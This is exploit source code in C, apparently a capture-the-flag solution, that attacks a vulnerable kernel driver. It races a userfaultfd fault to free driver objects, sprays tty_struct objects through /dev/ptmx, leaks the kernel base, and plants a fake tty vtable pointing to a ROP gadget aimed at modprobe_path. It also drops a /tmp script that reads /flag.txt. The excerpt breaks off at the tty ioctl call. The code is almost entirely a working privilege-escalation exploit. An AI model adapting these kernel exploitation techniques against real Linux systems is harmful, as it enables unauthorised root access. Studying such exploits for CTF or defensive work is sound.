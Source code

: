 ```exploit.c

// (END utils)

static void handler(ulong addr) {
  puts("[+] removing all books.");
  remove_all(fd);
  puts("[+] allocating tty_struct...");
  assert((ttyfd = open("/dev//ptmx", O_RDWR | O_NOCTTY)) > 3);
}

int main(int argc, char *argv[]) {
  system("echo -ne \"\\xff\\xff\\xff\\xff\" > /tmp/nirugiri");
  system("echo -ne \"#!/bin/sh\nchmod 777 /flag.txt && cat /flag.txt\" > /tmp/a");
  system("chmod +x /tmp/nirugiri");
  system("chmod +x /tmp/a");
  assert((fd = open(DEV_PATH, O_RDWR)) > 2);

  // spray
  for (int ix = 0; ix != 0x10; ++ix)
    assert(open("/dev/ptmx", O_RDWR | O_NOCTTY) > 3);

  // prepare
  add_book(fd, 0); add_book(fd, 1);

  // set uffd region
  struct skb_uffder *uffder = new_skb_uffder(GET_DESC_REGION, 1, bigbuf, handler, "getdesc");
  skb_uffd_start(uffder, NULL);
  sleep(1);

  // invoke uffd fault and remove all books while halting
  Request req = {.index = 1, .userland_pointer = (char*)GET_DESC_REGION};
  assert(ioctl(fd, CMD_GET_DESC, &req) == 0);

  assert((kbase = ((ulong*)GET_DESC_REGION)[0x210 / 8] - 0x14fc00) != 0);
  assert((tty_addr = ((ulong*)GET_DESC_REGION)[0x1c8 / 8] + 0x800) != 0);
  ulong modprobe_path = kbase + 0x837d00;
  ulong rop_start = kbase + mov_addr_rdx_rsi;
  printf("[!] kbase: 0x%lx\n", kbase);
  printf("[!] tty_struct : 0x%lx\n", tty_addr); // tty_addr is the Book[0]

  /****************************************************/

  // prepare
  add_book(fd, 0);

  // set uffd region
  struct skb_uffder *uffder2 = new_skb_uffder(ADD_DESC_REGION, 1, bigbuf, handler, "adddesc");
  skb_uffd_start(uffder2, NULL);
  *(unsigned*)bigbuf = 0x5401; // magic for paranoia check in tty_ioctl()

  // prepare fake vtable at the bottom of tty_struct
  for (int ix = 1; ix != BOOK_DESCRIPTION_SIZE / 8; ++ix) {
    ((unsigned long*)bigbuf)[ix] = tty_addr + 0x200;
  }
  for (int ix = BOOK_DESCRIPTION_SIZE / 8 / 3 * 2; ix != BOOK_DESCRIPTION_SIZE / 8; ++ix) {
    ((unsigned long*)bigbuf)[ix] = rop_start;
  }

  // invoke fault
  Request req2 = {.index = 0, .userland_pointer = (char*)ADD_DESC_REGION};
  assert(ioctl(fd, CMD_ADD_DESC, &req2) == 0);

  puts("[+] calling tty ioctl...");
```